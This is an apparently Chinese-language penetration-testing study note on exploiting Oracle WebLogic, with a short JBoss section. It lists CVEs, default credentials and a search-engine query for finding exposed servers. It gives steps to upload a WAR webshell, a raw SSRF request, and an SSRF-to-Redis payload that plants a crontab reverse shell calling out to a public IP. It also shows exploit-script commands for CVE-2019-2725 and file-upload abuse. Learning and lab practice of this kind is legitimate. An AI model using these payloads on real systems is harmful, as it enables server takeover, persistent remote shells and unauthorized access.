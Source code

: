 ```yaml
---
typora-root-url: ./image
---
```


# Weblogic漏洞

## 简介

基于JavaEE架构的中间件，Java应用服务器

## 特征

默认端口: 7001

控制后台: http://ip:7001/console

![特征界面](/../Weblogic_vuln/weblogic_weakpass.png)

## Weblogic 历史漏洞 

漏洞主要影响版本：

```txt
Weblogic 10.3.6.0
Weblogic 12.1.3.0
Weblogic 12.2.1.1
Weblogic 12.2.1.2
Weblogic 12.2.1.3
Weblogic 14.1.1.0
```

|      漏洞类型       |                           CVE编号                            |
| :-----------------: | :----------------------------------------------------------: |
|        SSRF         |                        CVE-2014-4210                         |
|    任意文件上传     |                        CVE-2018-2894                         |
| XML Decode 反序列化 |     CVE-2017-10271<br />CVE-2019-2725<br />CVE-2019-2729     |
|    Java反序列化     | CVE-2015-4852<br />CVE-2016-0638<br />CVE-2016-3510<br />CVE-2017-3248<br />CVE-2018-2628<br />CVE-2018-2893<br />CVE-2020-2890<br />CVE-2020-2555<br />CVE-2020-14645<br />CVE-2020-14756<br />CVE-2021-2109 |
|       弱口令        |                   Weblogic<br />Oracle@123                   |

## Weblogic 历史漏洞发现

1. 获取资产

   利用网络空间搜索引擎

   fofa: app="BEA-WebLogic-Server"

## 漏洞利用

### WeakPassword

- [WeakPass网站](https://cirt.net/passwords?criteria=weblogic)

- 管理后台路径：/console

- 上传webshell

  1. jar命令打包war包

     ```java
     jar -cvf xxx.war xxx.jsp
     //c: 创建新的jar文件
     //v: 显示输出信息
     //f: 指定jar文件名称
     //注意: 第一个文件是要生成的目标文件
     ```

  2. 上传war包

     1. 登陆后台

     2. 部署->安装->上载文件，之后全部选择下一步完成部署

        ![img](/../Weblogic_vuln/9e00d34c95a60a7800ddd71411b2debf.png)

        ![img](https://study-cdn2.yijinglab.com/guide-img/e5fdc29c-6ee6-40e9-b03e-18b6bb6e5b7f/7461ab3ec341760d32b1fb34e920cd98.png?_=1718955217099)

  3. 访问路径：`/xxx/xxx.jsp`

### SSRF

1. 漏洞位置：`/uddiexplorer/SearchPublicRegistries.jsp`

2. 漏洞发现

​	![img](/../Weblogic_vuln/33939bd0fd133bb10385c2ac229b4305.png)

​	![img](/../Weblogic_vuln/a24eb7c433b5761b76cf50f1ce5b22e9.png)	

```html
POST /uddiexplorer/SearchPublicRegistries.jsp HTTP/1.1
Host: 192.168.81.111:7001
Content-Length: 170
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Origin: http://192.168.81.111:7001
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.81.111:7001/uddiexplorer/SearchPublicRegistries.jsp
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: publicinquiryurls=http://www-3.ibm.com/services/uddi/inquiryapi!IBM|http://www-3.ibm.com/services/uddi/v2beta/inquiryapi!IBM V2|http://uddi.rte.microsoft.com/inquire!Microsoft|http://services.xmethods.net/glue/inquire/uddi!XMethods|; ADMINCONSOLESESSION=2wxhmy4L25TQtqp0jYhf4TP26GPMvR2qmFmsBZ5HsLy2bXZ5sFTp!-1442615718; JSESSIONID=nfmnmy4fRM1QKd1V3nq4L1zJ3JCqGTJZvPpHnzhLmj7Gr78yrsBJ!-1442615718
Connection: close

operator=http%3A%2F%2F127.0.0.1:7001&rdoSearch=name&txtSearchname=test&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search
```

3. 内网探测

   1. 随机访问一个端口回显：could not connect
   2. 非http协议：did not have a valid SOAP
   3. 不存活主机：No route to host

4. SSRF 攻击内网redis

   先在攻击机上开启监听

   ```bash
   nc -lvvp 4444
   ```

   payload：

   ```bash
   http://172.28.0.2:6379/test
   
   set 1 "\n\n\n\n0-59 0-23 1-31 1-12 0-6 root bash -c 'bash -i >& /dev/tcp/124.71.45.28/4444 0>&1'\n\n\n\n"
   config set dir /etc/
   config set dbfilename crontab
   save
   ```

   对payload进行url编码后作为operator参数的值发送请求

### 任意文件上传

1. 位置：`Weblogic Web Service Test Page`页面，这个页面在开发模式下才会开启，正式上线后默认关闭

2. 影响范围

   ```txt
   10.3.6.0
   12.1.3.0
   12.2.1.2
   12.2.1.3
   ```

3. 页面位置

   ```url
   /ws_utc/config.do
   /ws_utc/begin.do
   ```

   启用方法：控制台->base_donaim->高级->启用Web服务测试页->保存

   能访问到如下页面说明存在漏洞

   ![image-20240721205535835](/../Weblogic_vuln/image-20240721205535835.png)

   先在`/ws_utc/config.do`页面中设置`Work Home Dir`为

   ```url
   /u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css
   ```

   点击安全->添加，在keystore文件处上传，响应中的时间戳是webshell名称前缀

   上传jsp格式的webshell或者木马

### 反序列化漏洞--远程代码执行

1. 影响版本

   ```txt
   10.*
   12.1.3
   ```

2. 影响组件

   ```txt
   bea_wls9_async_response.war
   wsat.war
   ```

3. 漏洞识别

   访问路径`_async/AsyncResponseService`判断对应组件是否开启

4. 漏洞利用

   [漏洞利用脚本](https://gitee.com/yijingsec/CVE-2019-2725)

   ```bash
   # 利用漏洞执行命令
   python CVE-2019-2725.py 10.3.6 http://72262c7cbbcc.target.yijinglab.com whoami
   
   # 利用漏洞上传webshell
   python CVE-2019-2725.py 10.3.6 http://72262c7cbbcc.target.yijinglab.com
   ```


# JBoss漏洞

1. 默认页面

   ![image-20240721211740226](/../Weblogic_vuln/image-20240721211740226.png)

2. 漏洞检测脚本

   [jbossScan](https://github.com/GGyao/jbossScan)

   [jexboss](https://github.com/joaomatosf/jexboss)
